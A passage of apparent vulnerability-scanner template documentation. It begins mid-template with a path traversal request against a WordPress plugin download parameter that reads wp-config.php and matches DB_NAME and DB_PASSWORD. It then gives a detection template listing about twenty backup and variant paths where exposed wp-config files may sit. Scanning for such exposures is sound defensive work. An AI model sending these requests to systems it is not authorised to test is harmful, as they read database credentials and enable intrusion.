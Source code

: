 - {{BaseURL}}/wp-admin/admin-post.php?alg_wc_pif_download_file=../../../../../wp-config.php

### Matchers

**Type - word**

- words
  1. DB_NAME
  2. DB_PASSWORD
- part - body
- condition - and

**Type - status**

- status
  1. 200

---

# WordPress wp-config Detection

## Description

- WordPress `wp-config` was discovered. This file is remotely accessible and its content available for reading.
- severity - medium
- tags - wordpress,backup

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-config.php
- {{BaseURL}}/.wp-config.php.swp
- {{BaseURL}}/wp-config-sample.php
- {{BaseURL}}/wp-config.inc
- {{BaseURL}}/wp-config.old
- {{BaseURL}}/wp-config.txt
- {{BaseURL}}/wp-config.php.txt
- {{BaseURL}}/wp-config.php.bak
- {{BaseURL}}/wp-config.php.old
- {{BaseURL}}/wp-config.php.dist
- {{BaseURL}}/wp-config.php.inc
- {{BaseURL}}/wp-config.php.swp
- {{BaseURL}}/wp-config.php.html
- {{BaseURL}}/wp-config-backup.txt
- {{BaseURL}}/wp-config.php.save
- {{BaseURL}}/wp-config.php~
- {{BaseURL}}/wp-config.php-backup
- {{BaseURL}}/wp-config.php.orig
- {{BaseURL}}/wp-config.php_orig
- {{BaseURL}}/wp-config.php.original
- {{BaseURL}}/\_wpeprivate/config.json
